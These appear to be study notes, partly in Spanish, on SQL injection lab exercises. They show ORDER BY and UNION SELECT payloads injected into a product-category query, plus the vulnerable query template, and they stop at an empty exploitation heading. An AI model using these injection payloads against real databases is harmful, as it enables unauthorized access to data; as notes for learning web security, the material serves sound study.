 ![](/img2/Pasted%20image%2020250707174726.png)

- Injection

```sql
SELECT * FROM products WHERE category = 'Gifts' order by 2-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1','2','3'-- -' AND released = 1
```


## # Ataque UNION: encontrando columnas con texto || SQL injection UNION attack, finding a column containing text 

- Query SQL

```sql
SELECT * FROM products WHERE category = '$INPUT$' AND released = 1
```

- Explotation
